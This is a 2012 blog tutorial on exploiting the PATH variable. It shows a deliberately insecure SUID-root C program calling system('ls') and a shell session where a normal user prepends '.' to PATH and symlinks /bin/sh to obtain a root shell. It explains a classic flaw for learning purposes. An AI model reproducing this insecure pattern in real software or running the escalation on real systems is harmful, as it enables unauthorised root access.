 ```yaml
---
date: 2012-03-27
title: Exploiting environment variables
author: Alexandru Juncu
tags: exploit, PATH
---
```


Environment variables are sometimes very important when creating new
processes. For example, the `PATH` variable, that decides what executable to
run.

<!--more-->

The easiest example to exploit `PATH` is to add the current directory `.` to
the list and overwrite common shell commands with something else.

    $ cat ./ls
    echo P0wn3d
    $ ls
    file1 file2
    $ ./ls
    P0wn3d
    $ export PATH=.:$PATH
    $ ls
    P0wn3d

But that can only affect the user's shell and can't do harm to the system.
What if some other conditions exist in the system, like the use of the
`SUID` bit. Normal processes are run as the user who executes them,
regardless of who owns the executable file (as long as the user who runs
the file can read the file). If the `SUID` is set on an executable file, any
process started from that executable will run as the owner of the file,
not shell owner. Here is an example of a very insecure source that
**shouldn't** be SUID-ed.


``` cpp
#include<stdlib.h>

int main(void)
{
	system("ls");
	return 0;
}
```

Let's assume that the compiled executable from this code is owned by root,
SUID-ed and put into /bin with the name `ls_root`.

    $ ls -la /bin/ls_root
    -rwsrwsr-x 1 root root 7163 2012-03-21 12:28 /bin/ls_root

What this will enable, for example, is the listing of the `/root` directory
by any user.

    $ cd /root
    $ ls
    ls: cannot open directory .: Permission denied
    $ sudo ls
    test
    $ ls_root
    test

The code simply executes the `ls` command. But what if the `ls` command isn't
doing what it is supposed to do? Given this setup, as a normal user, we
can do the following:

    $ ln -s /bin/sh ls
    $ echo $$
    32655
    $ ls
    ls  ls_root.c
    $ ./ls
    $ echo $$
    32730
    $ whoami
    alexj
    $ exit
    $ export PATH=.:$PATH
    $ ls_root
    # whoami
    root
    #

The `ls_root` process will run the `ls` command. The `ls` command will run an
executable specified by the `PATH` variable (the executable is `/bin/ls`). But
if the `PATH` variable is changed in the current bash process, the
executable ran by the `ls` command will now become something else. If the
`ls_root` command is ran by root (with the help of the `SUID` bit), any of its
children will also be processes of root. So, if the `ls` command will now run
a bash executable, it will run a root owned executable that leads to root
access.

The `SUID` is something that is used in Linux systems (`sudo` and even `ping`
use it), but these executables are very carefully implemented so that normal
users can't exploit them.
